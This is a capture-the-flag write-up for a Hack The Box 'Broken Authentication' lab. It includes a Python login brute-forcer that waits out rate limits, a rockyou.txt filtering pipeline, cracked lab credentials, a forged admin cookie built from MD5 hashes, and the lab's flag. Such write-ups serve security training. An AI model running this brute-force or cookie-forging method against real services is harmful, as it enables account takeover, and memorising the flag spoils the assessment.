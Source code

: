 # Skill Assessment - Broken Authentication

During our penetration test, we come across yet another web application. While the rest of the team keeps scanning the internal network for vulnerabilities in an attempt to gain an initial foothold, you are tasked with examining this web application for authentication vulnerabilities.

Find the vulnerabilities and submit the final flag using the skills we covered in the module sections to complete this module.

From past penetration tests, we know that the `rockyou.txt` wordlist has proven effective for cracking passwords.

**Questions**

Assess the web application and use various techniques to escalate to a privileged user and find a flag in the admin panel. Submit the contents of the flag as your answer.

```bash
#https://infosecwriteups.com/solving-the-htb-ctf-broken-authentication-7e8333d618d
#in register new account, we enumerate the password policy
The password must start with a capital letter
The password must contain at least one lowercase
The password must contain at least one special char: $ # @
The password is shorter than 20 characters
#then login with the created account
```

rate\_limit.py

```python
import requests
import time

# file that contains passwords
userpass_file = "rockyou.txt" # but first filter out the passwords that do not comply with the password policy

# file that contains usernames
usernames_file = "users.txt" # seclists top names + country codes (.xx)

# create url using user and password as argument
url = "http://.../login.php"

# rate limit blocks for 30 seconds
lock_time = 30

# message that alert us we hit rate limit
lock_message = "Too many login failures"

# read user and password
with open(usernames_file, "r") as f:
 for line in f:
    username = line.rstrip()

    with open(userpass_file, "r") as fh:
        for fline in fh:
            password = fline.rstrip()

            # prepare POST data
            data = {
                "userid": username,
                "passwd": password,
                "submit": "submit"
            }

            print(data)

            # do the request
            res = requests.post(url, data=data)

            # handle generic credential error
            if "Invalid credentials" in res.text:
                print("[-] Invalid credentials: userid:{} passwd:{}".format(username, password))
            # user and password were valid !
            elif "Welcome back" in res.text:
                print("[+] Valid credentials: userid:{} passwd:{}".format(username, password))
            # hit rate limit, let's say we have to wait 30 seconds
            elif lock_message in res.text:
                print("[-] Hit rate limit, sleeping 30")
                # do the actual sleep plus 0.5 to be sure
                time.sleep(lock_time+0.5)
```

now to find out the account password with the script above

```bash
#we filter out rockyou.txt with the rules found above for password.txt
sudo grep '^[[:upper:]]' /usr/share/wordlists/rockyou.txt |grep '[$@#]' |grep '[[:lower:]]' |grep -E '.{18,}[0-9]$' > password.txt

#enumerate username in this page
http://94.237.58.148:43583/messages.php #use burpsuite with cirt-default-usernames.txt
#guest, support

#enumerate payload with support account
https://gist.githubusercontent.com/eternalbluesec/def400982cadb4cb145d88ec2b408283/raw/cc65229886df02518b11cbf8b520e8b7cb04ae6b/country_codes.txt

#for the username
cat username.txt 
support.us
support.it
support.gr
support.uk
support.cn

#run the python script
python3 rate_limit.py
#[+] Valid credentials: userid:support.us passwd:Mustang#firebird1995
#[+] Valid credentials: userid:support.uk passwd:TrillPrincessMentality#1
#[+] Valid credentials: userid:support.cn passwd:BisocaBuzau#20061985

#login and catch the hash cookie
#decode it with dcode
https://github.com/s0md3v/Decodify
#this example result from support.uk
dcode OTBkNzUyOWE0NTVmNzIwYWQwY2U3YTMyYjNmZTRmMmI6NDM0OTkwYzhhMjVkMmJlOTQ4NjM1NjFhZTk4YmQ2ODI%3D
[+] Decoded from URL encoding : OTBkNzUyOWE0NTVmNzIwYWQwY2U3YTMyYjNmZTRmMmI6NDM0OTkwYzhhMjVkMmJlOTQ4NjM1NjFhZTk4YmQ2ODI=
[+] Decoded from Base64 : 90d7529a455f720ad0ce7a32b3fe4f2b:434990c8a25d2be94863561ae98bd682
#its an 2 md5 hash combined, we can decoded it individually
90d7529a455f720ad0ce7a32b3fe4f2b = support.uk
434990c8a25d2be94863561ae98bd682 = support
#now we recreate the hash as admin.uk
#in cyberchef
e6fe84444c51ccdce10e0efeda77083b = admin.uk
21232f297a57a5a743894a0e4a801fc3 = admin
#hash
e6fe84444c51ccdce10e0efeda77083b:21232f297a57a5a743894a0e4a801fc3
#back to cyberchef
Congratulation! You have passed the assessment test, 
here is your flag HTB{1_br0k3_4uth_4_br34kf4st}
```
